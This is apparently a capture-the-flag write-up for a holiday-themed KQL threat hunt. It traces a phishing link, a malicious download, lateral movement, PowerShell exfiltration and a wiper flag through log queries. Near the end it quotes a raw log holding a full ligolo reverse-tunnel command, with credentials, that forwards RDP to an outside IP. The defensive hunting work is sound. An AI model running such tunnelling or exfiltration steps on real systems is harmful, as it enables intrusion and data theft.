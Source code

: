 # KQL Kraken Hunt

## SOLUTION & PROCESS

### ONBOARDING

1.  How many Craftperson Elf's are working from laptops?

    QUERIES:

    <img src="https://lh7-us.googleusercontent.com/MvbJxM40woFA4Se7p9tWOQm2HNwGU0VDQgfe9utIKP6vvsa2OT6JWrKqioJ1WYPsKbX-Kxi_1b5EWLB025D5RpRtfHJ53VGOeU51G-qtcqW5Ki4NSh1GU9ieXOZO4duxXdgoBWErkX3D-8miDltErz4" alt="" data-size="original">

    ANSWER:&#x20;

    25

### CASE 1

Track down who sent and who received the malicious link, as well as the subject link of the email with the malicious link: '[http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx](http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx)'

#### QUERIES

<figure><img src="https://lh7-us.googleusercontent.com/a5N2k43-CJEp9TZhSDyg4Nx4P4ZqA2Bli0qw_e5X1ca-9gGXB_fnM3zBxDpKOpOEDap0BgaEHeXFVR5oOaCYFaoZ_0LYuk93scdGDoXYI-wUTXEdW77rhHnlMTS-j6yoZ8DQcDVOwerJD3vxgOk_gIM" alt=""><figcaption></figcaption></figure>

#### ANSWERS

<figure><img src="https://lh7-us.googleusercontent.com/TEWx2TyqxROsCjFM5rLVDceggA-v58xdnk75d9f88OAKCiBLYEhlxGcil-AUbJcfJZyyzZitePm2umcJCDeZje69-uqWagS4uheLhfWUTILchGTo_0y2D7CxT1hSk_EuFKCZOz0WUmWilR8QeuL1rFA" alt=""><figcaption></figcaption></figure>

SENT: cwombley@gmail.com

RECEIVED: alabaster\_snowball@santaworkshopgeeseislands.org

SUBJECT LINE: “\[EXTERNAL] Invoice foir reindeer food past due”

### CASE 2

Find the role, hostname and ip address of the victim.

QUERY:

<figure><img src="https://lh7-us.googleusercontent.com/RYidirBYNrKLo6o40HKkaufZiA4n2ji3zKezkTp7u8M1HVyEtoBI-4BvjDScxEph46J1iNnGrzoj4iAnE3qPH14tttsqmn0cnkqwwUWxZLUCoRt8B6z3NmU1U1lAgEn3Hm77d1We8J25955fe0XUcYc" alt=""><figcaption></figcaption></figure>

SOLUTION:

<figure><img src="https://lh7-us.googleusercontent.com/3Y4irJPGmPvzKY2PccMde4Nyh3TGslugW77Y1DDS_fOj2-nqsyvutvZpaFSOq0Gl42M8OZ-Nlg71Roz1T5Iy7f7ycN2aF6jrzpwxNY_T_FY5kMFdseMNf8ScTMNhPSi4NxXbu2az-hiZAefocI_j8W4" alt=""><figcaption></figcaption></figure>

IP ADDRESS: 10.10.0.4

ROLE: Head Elf

HOSTNAME: Y1US-DESKTOP

### CASE 3

What time did the victim click on the link? Were any files downloaded after he clicked on it?

QUERY 1 (time):

<figure><img src="https://lh7-us.googleusercontent.com/vjQBuf1AzOctN15_B3oylkiBAH3_onFBlmdKTyKgffISnb3xBUuCo7b97LdE84Exj91KpBBGEgeMtZ2_5bD6u8myMsLlnft-kupBNJAIdTHrdUL4vAgGRT7V-0-mzJRZ6CXWHo78G4PR4pwz6vwYetc" alt=""><figcaption></figcaption></figure>

RESULT 1 (time):

<figure><img src="https://lh7-us.googleusercontent.com/PuHI9oixhptbV5-p8QJddSSYdnlMxvt1vo02Z3a06cHAk7ZTRddCIgLyT6L2_FNdaO_pmfGZto-EfOmfVF8_bGb1FsXFaz8Irkr-ZGcRkEYWTf5aKVCVagIeIFwMIJkUCfNnkeJWBJS_K5b-ZD2S2cw" alt=""><figcaption></figcaption></figure>

QUERY 2 (downloaded file):

![](https://lh7-us.googleusercontent.com/lRyC6YQ28kU\_pR5nCbn92Fqkuf8GWlyEG5s6imvz\_UOfPsm1xdLBTDzl7Xu0tuykkynOun1tLwwC3oukJcIEqyCJi6EMKUDDL4h3TYRKsXEd8D9KOtO3XCgalEEa1ZS\_VtcVI4il4cozLrD0ZD4Ajyc)

RESULT 2 (downloaded file):

![](https://lh7-us.googleusercontent.com/i2eMprbbxh1QBb2an7Ne2UfpfVZkAcUYnZUN7Zw4sbRrhOyxnn0ZvrqQIvESit-hKqayao60YeqK9MwELjJJPUjJLFzSiPMna\_CIYrguPIHA8O3OGzXOumOeEYTFes2wz3DRyx-lHzmT-tBhO0nRb-0)

TIME (OF CLICK): 2023-12-02 10:12:42.0000

DOWNLOADED FILE NAME: giftwrap.exe

### CASE 4

Where did the attacker create a remote tunnel to? When did the attacker enumerate network shares? What hostname did the attack perform lateral movement to get to?

#### Endpoint IP Address from a created Remote Tunnel

QUERY

![](https://lh7-us.googleusercontent.com/XVTPmDsMIZEp--ItJ67Fq8\_lDYxkm1jJFZFDYSEfPKS4VH9sEG0vP4kJMd4Qn1eEjM0D9y20XW9igJOstKdr56IzBMQy54zAxKxyHauurHnQYLvV7UgxQ8oQm7DjfcgT5EvUy8hANf4AF1PUw5mXeYs)

RESULT:

![](https://lh7-us.googleusercontent.com/13na8qbqYkdYLu8903nbmkt5NsLFbw1u5T4GeWbV0T7JWvmpFUVWyW39yFKuoHTGh22vtBCWtBhp9uuFBie4Qp2ncvzQc8BY2Hcu6jfKweDo76UDjX80Nmfb3kHuDsl\_XklbYyU6F542kfH1l6iRl\_k)

IP ADDRESS: 113.37.9.17

#### Time & Hostname

QUERY:

![](https://lh7-us.googleusercontent.com/79ZbEpZXt87wTw0uRpiB1OL\_phy2GliL5CgLDTtpqiKxMfFDhn2qazIUfvDU-t0PBbKf2uEl9ngDCn9A6T8natskto503FD1geuQh4YsaKyv0KZwIYZxwDnyilKpAE\_wcPw8vNS-f-F1rP9\_qLfM0NM)

RESULT 1 (TIME when attacker enumerated network shares):

![](https://lh7-us.googleusercontent.com/utX1fUCATCO1biW6B0EuUWje\_NzTER932a0u41DC\_I8gR3D-OdP7\_\_DZk1Z9PYGlBkI2BIT7yEbwO\_fq7bM4rqilI82rjiEIQDc0BG09ryaHF1DV6qsq2tKmdnTD87\_gNppuY-tQBO-2R1kSnt-jSzw)

RESULT 2 (Hostname of lateral movement)

![](https://lh7-us.googleusercontent.com/uLdRc2VE2m4hC8LNxvb4xW\_IfL\_GPmfwb36Xn6reOhujuxcmN-1koCRn3DSn2sXZD-oRcCJuzrfpb-f-EroyYY7usaC77uAWSDyDkLDj2a7E48PjywxaekzbluIFVTJoNo7ij25o1ATEbBxJCh3q6HM)

TIME (OF ENUMERATED NETWORK SHARES): 2023-12-02T16:51:44Z

HOSTNAME (OF LATERAL MOVEMENT): NorthPolefileshare\


### CASE 5

Find base64 encoded powershell commands and find the name of the file that was transferred and to where.

QUERY

<figure><img src="https://lh7-us.googleusercontent.com/vLnmuC-nBhxoltH41WizoiRsYpbt2IpUgNIzEkO34KEuGHs6XZQUS6DlLpYLLKv84uMe8snT_QziHpl8wmeSAFjNWPNBe1uVsFuoTy10nV6QVQwFkMyupxSh5lvpk15HmyoQXnAtrDNb8XeSqzkH67o" alt=""><figcaption></figcaption></figure>

RESULT

<figure><img src="https://lh7-us.googleusercontent.com/Qh-bkx5hVYtRvROknWUM_UB4SBXF1omukoWjbaWl3Kz-mZ6ul9bOlgs-cC5iKrLte55RmaMy3oR5w-0vuyLBtzHHZGztGneovIuwE-KVO3s-4J2-MyxUDLE-4n_bn2jfwniIv7qqf901B32rj77xC9w" alt=""><figcaption></figcaption></figure>

FURTHER STEPS:&#x20;

1. I decoded the four, actually 3, base64 encoded texts in Powershell.&#x20;

<figure><img src="https://lh7-us.googleusercontent.com/q1g_wAseK58O47_l_IVAy0iyyezy4DmKcvEP88tYjVhKdwWehMEpxlQgxm8zeZ4mx7rRTIeemWqGXRvFfIVzOxRdFAXyzN0-7PV1-hF6RgA1bLOAVzjC3GQRBVzmSldFnszPWlSuzLvETroDH5QZKDM" alt=""><figcaption></figcaption></figure>

2. One of the decoded messages was written in reverse, so I wrote it backwards, with some help from AI, discovering the file name.&#x20;
3. A 2nd “decoded” message was almost all numbers, which I thought was strange, so I sent it to chatgpt. ChatGPT found how it was encoded and decoded it, showing me the domain the file was sent to.

TIME (OF FIRST ATTACK): 2023-12-24T16:07:47Z&#x20;

\*NOTE:there was an encoded powershell command before this one, but it was a basic update, not indicative of an attack)

FILE TRANSFERRED NaughtyNiceList.txt

DOMAIN (WHERE FILE WAS SENT) giftbox.com



### CASE 6

Determine executable and command flag

QUERY

\*I used the previous query.

RESULT

<figure><img src="https://lh7-us.googleusercontent.com/JdZkygDuCblavsOhMKjahEV4S40jsp7rmSXSpIJ3xOmAgKysEiMABSzIq0wDWbHx9mbYsfTpi-U_RzQsAsut7PEtchqVtfD3vpBzx36TKayZe2oa9ZHmBfOTGsP0hz_4yuNFbG3eQjjjbhD_snlPlqw" alt=""><figcaption></figcaption></figure>

EXECUTABLE: downwithsanta.exe

COMMAND FLAG: --wipeall

### [ChatGPT Prompts/Answers](https://chat.openai.com/share/94431fef-ea99-4e63-a282-69e523da68f7)

Example Prompts:

* What signs would there be that a reverse tunnel connection with a compromised machine is made? Where would I find the IP the connection forwarded to? (Using KQL)
* What is the timestamp when the attackers enumerated network shares on the machine?
* What process names would be indicative of this?
*   Is this a reverse tunnel connection?

    "timestamp": 2023-12-02T11:11:29Z,

    "parent\_process\_name": cmd.exe,

    "parent\_process\_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,

    "process\_commandline": "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof,

    "process\_name": ligolo,

    "process\_hash": e9b34c42e29a349620a1490574b87865cc1571f65aa376b928701a034e6b3533,

    "hostname": Y1US-DESKTOP,

    "username": alsnowball
